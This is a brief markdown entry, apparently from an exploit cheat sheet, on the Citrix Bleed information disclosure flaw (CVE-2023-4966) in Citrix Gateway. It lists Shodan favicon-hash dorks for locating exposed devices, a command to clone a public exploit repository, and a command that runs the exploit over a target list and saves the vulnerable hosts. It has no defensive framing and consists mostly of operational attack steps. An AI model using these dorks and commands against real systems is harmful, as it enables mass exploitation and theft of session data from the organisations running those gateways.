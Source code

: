 ### Bleed citrix information disclosure vulnerability on Citrix gateway.

#### Tag
```Citrix```

#### Dorks
```
Shodan - http.favicon.hash:-1292923998,-1166125415
```

#### Exploit
```
- git clone https://github.com/sanjai-AK47/CVE-2023-4966.git
- python3 exploit.py -dL targets.txt -o vulnerable-targets.txt
```

#### Note - targets.txt must be domain list or ip:port (Eg-157.6.78.69)
